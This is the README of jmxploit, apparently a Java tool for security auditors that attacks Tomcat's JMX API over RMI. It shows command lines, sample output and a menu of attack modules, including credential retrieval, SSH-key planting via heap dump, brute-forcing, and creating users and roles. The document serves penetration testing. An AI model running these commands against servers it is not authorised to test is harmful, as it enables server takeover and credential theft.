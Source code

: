 jmxploit
========

Jmxploit is written in Java to audit the security level of the JMX API in Tomcat environment.
This tool is dedicated to security auditors and researchers in order to analyse JMX API security level.

The RMI protocol is used by jmxploit to interact with JMX API.
If no credentials are given in argument one anonymous connection will be attempt.

How to :
=========

Jmxploit offers two method of use.

- The interactive method :

$ java -jar jmxploit.jar  --host SERVER --port PORT --login LOGIN --password PASSWORD

If authentication succeeded, information about Java environment will appear and menu will ask you to choose a module to launch.

test@jmxploit:java -jar jmxploit.jar  --host tomcat --port 8050 --login controlRole --password password

     ____.  _____  ____  ___      .__         .__  __   
    |    | /     \ \   \/  /_____ |  |   ____ |__|/  |_ 
    |    |/  \ /  \ \     /\____ \|  |  /  _ \|  \   __\
/\__|    /    Y    \/     \|  |_> >  |_(  <_> )  ||  |  
\________\____|__  /___/\  \   __/|____/\____/|__||__|  
                 \/      \_/__|                         

Connexion to JMX service at tomcat:8050


Please find below information about server environment

Hosts available : localhost, 
OS Information : Linux 2.X.XX-X-XXX 
Version : Sun Microsystems Inc. OpenJDK Client VM 20.0-b12 
ClassPath and Arguments : /usr/lib/jvm/java-6-openjdk/jre/lib/resources.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/rt.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/sunrsasign.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/jsse.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/jce.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/charsets.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/netx.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/plugin.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/rhino.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/modules/jdk.boot.jar:/usr/lib/jvm/java-6-openjdk/jre/classes
/home/tomcat/apache-tomcat-7.0.42/bin/bootstrap.jar:/home/tomcat/apache-tomcat-7.0.42/bin/tomcat-juli.jar
-Djava.util.logging.config.file=/home/tomcat/apache-tomcat-7.0.42/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.port=8050 -Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=true -Djava.rmi.server.hostname=192.168.56.101 -Dcom.sun.management.jmxremote.password.file=../conf/jmxremote.password -Dcom.sun.management.jmxremote.access.file=../conf/jmxremote.access -Djava.endorsed.dirs=/home/tomcat/apache-tomcat-7.0.42/endorsed -Dcatalina.base=/home/tomcat/apache-tomcat-7.0.42 -Dcatalina.home=/home/tomcat/apache-tomcat-7.0.42 -Djava.io.tmpdir=/home/tomcat/apache-tomcat-7.0.42/temp 


#####################################################################################
 Manager seems to be available  on following hosts    : localhost, 
#####################################################################################

Please select a module to launch

[0]	MakeDir		This attack will create a directory on the server	
[1]	CreateFile	This attack will put content in log file and move the log file to the desired directory. File will be overwritten be carefull !!!	
[2]	DumpHeap	This attack will use the dumpHeap methods from com.sun.management. The objective is to put a ssh key on the Linux Server	
[3]	AllowAdress	This attack will remove the ip adress limitation on manager	
[4]	CreateRole	This attack will create a role to assign to users(manager, manager-gui,manager-script,manager-jmx)	
[5]	CreateHost	This attack will create a new host on the server you can choose the application root directory... Why not an open share ?	
[6]	DisplayPassword	This attack will retrieve Manager users' credentials if exists	
[7]	RemoveHost	This attack will remove an hostname on the application server	
[8]	Bruteforce	This module will bruteforce logins/passwords	
[9]	AssignRole	This attack will attribute a role to a user	
[10] CreateUser	This attack will create a user to access Tomcat application's	



- The direct attack  method :

In this case jmxploit requires the attack name and required parameters in argument.

To list available attacks please use

$java -jar jmxploit.jar --host SERVER --port PORT --login LOGIN --password PASSWORD --list 

     ____.  _____  ____  ___      .__         .__  __   
    |    | /     \ \   \/  /_____ |  |   ____ |__|/  |_ 
    |    |/  \ /  \ \     /\____ \|  |  /  _ \|  \   __\
/\__|    /    Y    \/     \|  |_> >  |_(  <_> )  ||  |  
\________\____|__  /___/\  \   __/|____/\____/|__||__|  
                 \/      \_/__|                         

List of availables modules
MakeDir			This attack will create a directory on the server
CreateFile		This attack will put content in log file and move the log file to the desired directory. File will be overwritten be carefull !!!
DumpHeap		This attack will use the dumpHeap methods from com.sun.management. The objective is to put a ssh key on the Linux Server
AllowAdress		This attack will remove the ip adress limitation on manager
CreateRole		This attack will create a role to assign to users(manager, manager-gui,manager-script,manager-jmx)
CreateHost		This attack will create a new host on the server you can choose the application root directory... Why not an open share ?
DisplayPassword		This attack will retrieve Manager users' credentials if exists
RemoveHost		This attack will remove an hostname on the application server
Bruteforce		This module will bruteforce logins/passwords
AssignRole		This attack will attribute a role to a user
CreateUser		This attack will create a user to access Tomcat application's


To launch one of them without interactive menu:

$java -jar jmxploit.jar --host yourserver --port XXXX --login LOGIN --password PASSWORD --attack ModuleName --arg1_to_mod arg1 --arg2_to_mod arg2

For example to create user :

test@jmxploit:java -jar jmxploit.jar  --host tomcat --port 8050 --login controlRole --password password --attack CreateUser --username tomcat_user

     ____.  _____  ____  ___      .__         .__  __   
    |    | /     \ \   \/  /_____ |  |   ____ |__|/  |_ 
    |    |/  \ /  \ \     /\____ \|  |  /  _ \|  \   __\
/\__|    /    Y    \/     \|  |_> >  |_(  <_> )  ||  |  
\________\____|__  /___/\  \   __/|____/\____/|__||__|  
                 \/      \_/__|                         

Connexion to JMX service at tomcat:8050
CreateUser will be launch
#### createUser operation will be invoke ####
#### Operation createUser has been successfully invoked ####


 User should be created
 
 
Contact : jeremy.mousset@bt.com
